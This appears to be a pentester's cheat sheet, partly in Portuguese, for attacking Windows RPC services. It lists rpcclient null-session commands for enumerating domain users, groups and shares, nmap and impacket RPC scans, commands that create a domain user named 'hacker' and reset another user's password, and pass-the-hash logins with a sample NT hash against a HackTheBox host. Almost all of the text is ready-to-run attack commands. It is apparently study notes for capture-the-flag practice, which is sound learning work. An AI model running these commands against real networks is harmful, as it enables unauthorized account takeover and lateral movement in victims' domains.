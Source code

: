 RPC
========================
RPC 139/445

    srvinfo
    querydominfo
    
    enumdomusers
    
    queryusergroups
    
    enumdomgroups

## Criar usuario via RPC

    createdomuser hacker

## Alterar senha de usuário

    setuserinfo2 hacker 24 Password@1
    #  a opção 23 acaba sendo mais interessante para manter as coisas mais simples
    setuserinfo audit2020 23 P@ssword!

    enumdomusers

RPC (111/tcp, 135/tcp)
msrpc/rpcbind


Version detection + NSE scripts

    nmap -Pn -sV -p $port --script=banner,msrpc-enum,rpc-grind,rpcinfo -oN tcp_port_rpc_nmap.txt <hostname>  

impacket

    impacket-rpcmap -brute-uuids -brute-opnums ncacn_ip_tcp:<hostname>
    
 
    impacket-rpcdump <hostname>


rpcinfo

List all registered RPC programs

    rpcinfo -p <hostname>    

Provide compact results

    rpcinfo -s <hostname>

Null session

    rpcclient -U "" -N <hostname>
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
 
## Pass the hash


Tem uma forma de realizar o pass the hash via rpcclient. Considere o comando:

    rpcclient --pw-nt-hash -U domain/user <hostname>
    
Ex.

    rpcclient --pw-nt-hash -U htb.local/henry.vinson apt.htb.local
    Password for [HTB.LOCAL\henry.vinson]: 

Aqui é necessário informar o nt hash do usuário!!! Assim funcionará corretamente o pass the hash.

Outra opção seria:

    pth-rpcclient -U htb.local/henry.vinson%00000000000000000000000000000000:e53d87d42adaa3ca32bdb34a876cbffb //apt.htb.local